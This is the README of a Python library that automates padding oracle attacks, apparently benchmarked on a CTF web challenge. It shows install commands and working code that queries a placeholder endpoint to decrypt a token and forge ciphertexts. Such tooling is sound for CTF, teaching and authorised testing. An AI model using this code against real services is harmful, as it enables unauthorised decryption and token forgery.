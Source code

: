 # Padding Oracle Automation in Python

![Python Package Badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

This script automates padding oracle attacks in Python, offering efficient and threaded execution.

- [Padding Oracle Automation in Python](#padding-oracle-automation-in-python)
  * [Installation](#installation)
  * [Performance](#performance)
  * [Usage](#usage)
    + [Decryption](#decryption)
    + [Encryption](#encryption)
    + [Customized Logging](#customized-logging)
    + [Extras](#extras)
  * [Example](#example)
  * [To-Do](#to-do)
  * [License](#license)

## Installation

You can install the script using one of these methods:

- **Via PyPI:**
  ```shell
  pip3 install -U padding_oracle
  ```

- **Directly from GitHub:**
  ```shell
  pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
  ```

## Performance

The script's performance varies depending on the number of request threads. This was tested in a CTF web challenge:

| Request Threads | Time Taken  |
|-----------------|-------------|
| 1               | 17m 43s     |
| 4               | 5m 23s      |
| 16              | 1m 20s      |
| 64              | 56s         |

## Usage

### Decryption

When trying to decrypt a token like the one at `https://example.com/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`, this script assumes that the token is vulnerable to a padding oracle attack.

```python
from padding_oracle import decrypt, base64_encode, base64_decode
import requests

sess = requests.Session()  # Uses connection pooling
url = 'https://example.com/api/'

def oracle(ciphertext: bytes):
    response = sess.get(url, params={'token': base64_encode(ciphertext)})
    if 'failed' in response.text:
        return False  # Token decryption failed
    elif 'success' in response.text:
        return True
    else:
        raise RuntimeError('Unexpected behavior')

ciphertext = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
assert len(ciphertext) % 16 == 0

plaintext = decrypt(
    ciphertext,
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Encryption

Below is an example demonstrating how to encrypt arbitrary bytes. For a detailed understanding of the process, please refer to [this Pull Request](https://github.com/djosix/padding_oracle.py/pull/4).

```python
from padding_oracle import encrypt

ciphertext = encrypt(
    b'YourTextHere', 
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Customized Logging

Both `encrypt` and `decrypt` allow user to inject a custom logger:

- **Disable Logging:**
  ```python
  from padding_oracle import nop_logger

  plaintext = decrypt(
      ...
      logger=nop_logger,
  )
  ```

- **Selective Logging:**
  ```python
  def logger(kind: str, message: str):
      if kind in ('oracle_error', 'solve_block_error'):
          print(f'[{kind}] {message}')

  plaintext = decrypt(
      ...
      logger=logger,
  )
  ```

### Extras

The script also includes PHP-like encoding and decoding functions:

```python
from padding_oracle import urlencode, urldecode, base64_encode, base64_decode
```

## Example

See the `example` folder.

## To-Do

- [ ] Support more padding schemes

## License

This script is distributed under the MIT license.
